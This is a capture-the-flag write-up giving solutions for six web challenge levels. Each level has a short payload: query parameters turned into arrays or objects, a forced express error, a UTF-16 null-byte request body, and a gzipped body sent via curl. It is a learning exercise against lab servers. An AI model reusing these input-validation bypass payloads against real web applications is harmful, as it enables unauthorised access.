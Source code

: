 # Info
* https://twitter.com/gynvael?lang=en
* http://challenges.gynvael.stream:5001-10

# Level 1

Solution: Make the `secret` param an array

```
http://challenges.gynvael.stream:5001/?secret[]=GIVEmeTHEflagNOW
```

# Level 2

Solution: Hijack attributes of query parameter
```
curl 'http://challenges.gynvael.stream:5002/?X\[length\]=801&X\[toString\]=1
```

# Level 3
(In this chal the flag was in the file path)
Solution: Force express to throw an error by using `%` as the param

```
http://challenges.gynvael.stream:5003/%
```

# Level 4

Solution: Encode the required keyword in `utf-16` encoding (Each letter takes 2 bytes in this case). Start each letter with a null value (%00). The way i did this was by editing my request in Burp (hex view) to insert null bytes. Also be sure to set the correct content-type!

```
POST /flag HTTP/1.1
Host: pwnd.top:5004
Content-type: text/plain;charset=utf-16
Content-Length: 26

\0S\0h\0o\0w\0M\0e\0T\0h\0e\0F\0l\0a\0g # Each \0 is set in the HEX view of repeater tab
```

# Level 5

Solution: Similiar to level 4 but a bit harder. Have to abuse the fact that querystring (body-parser urlencoded(extended:false)) will auto un-gzip a payload. This is tricky if using Burp as there's no easy way to send a gzipped payload. This is one of Burp's biggest downfalls.

```
echo -n 'secret=ShowMeTheFlag' | gzip|curl challenges.gynvael.stream:5005/flag -H 'Content-Encoding: gzip' --data-binary @-

```

# Level 6

Solution: (this chal may be broken?) - just send '<undefined>' as secret2

```
curl 'http://challenges.gynvael.stream:5006/flag?secret1=pwndt&secret2=<undefined>'
```
